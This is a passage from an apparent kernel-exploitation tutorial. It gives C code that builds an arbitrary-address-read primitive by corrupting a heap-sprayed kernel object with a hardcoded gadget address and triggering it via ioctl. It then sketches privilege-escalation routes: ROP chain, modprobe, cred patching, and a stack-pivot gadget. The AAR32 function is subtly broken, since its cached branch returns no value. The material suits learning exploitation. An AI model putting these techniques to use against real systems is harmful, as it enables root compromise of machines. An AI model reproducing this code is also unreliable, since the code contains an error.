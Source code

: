 This function can be called as many times as we need to overwrite anything in kernel-space memory.

The same approach can be used to achieve AAR. Because accessing memory takes more time and we would use this function multiple times (for scanning memory space) we can cache file descriptor to speed things up.

```c
int cached_fd = -1;
unsigned int AAR32(long long addr) {
    if (cached_fd == -1) {
        long long* p = (long long*)&buf;
        // mov eax, dword ptr [rdx] ; ret 
        p[12] = 0xffffffff8118a285;

        *(long long*)&buf[0x418] = g_buf;
        write(fd, buf, 0x500);

        for (int i = 0; i < 100; i++) {
            int v = ioctl(spray[i], 0, addr);
            if (v != -1) {
                cached_fd = spray[i];
                return v;
            }
        }
    } else {
        ioctl(cached_fd, 0, addr);
    }
}
```

# I have AAW / AAR primitives, now what?

There is more ways to get root shell such as crafting ROP chain and jumping to it, using `modprobe`, patching `struct cred` in memory etc.

## Jumping to ROP chain

This technique involves finding a gadget that allows us to write to register `rsp` and then executing `ret` to pivot to our ROP chain.

These are the steps for this technique:

1. Craft ROP chain in kernel memory
2. Obtain start address of our ROP chain in kernel
3. Find a pivot gadget that ultimatively does `mov rsp rcx/rdx; ret;`. Remember we can control `rcx` and `rdx` through `ioctl()` call. Usually there is no such straightforward gadget present so we have to use more complex gadgets like
```bash
push rdx
xor eax, 0x415b004f
pop rsp
pop rbp
ret
```
that have the same effect.
